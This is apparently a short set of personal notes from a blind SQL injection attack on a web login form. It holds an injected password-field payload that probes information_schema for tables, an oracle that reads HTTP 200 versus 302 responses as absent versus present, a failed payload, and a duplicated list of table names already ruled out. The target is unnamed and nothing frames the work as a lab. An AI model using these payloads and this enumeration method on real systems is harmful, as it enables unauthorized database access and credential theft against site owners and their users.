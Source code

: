 
things that did not

```txt
NO'+AND+RANDOM()
```


**payload to check for a specific existance of a table in the webpage (remember to delete any cookies to not keep session alive)**

```txt
username=hello&password=qwerty'+AND+EXISTS+(SELECT+1+FROM+information_schema.tables)+--+
```

code 200 -> does not exist
code 302 -> exists

*known to not exist*
```txt
admin
root
user
dba
manager
guest
tester
analyst
developer
support
superuser
sysadmin
operator
engineer
auditor
consultant
supervisor
client
owner
customer
apprentice
apprentice
contractor
member
subscriber
admin
root
user
dba
manager
guest
tester
analyst
developer
support
superuser
sysadmin
operator
engineer
auditor
consultant
supervisor
client
owner
customer
contractor
member
subscriber
```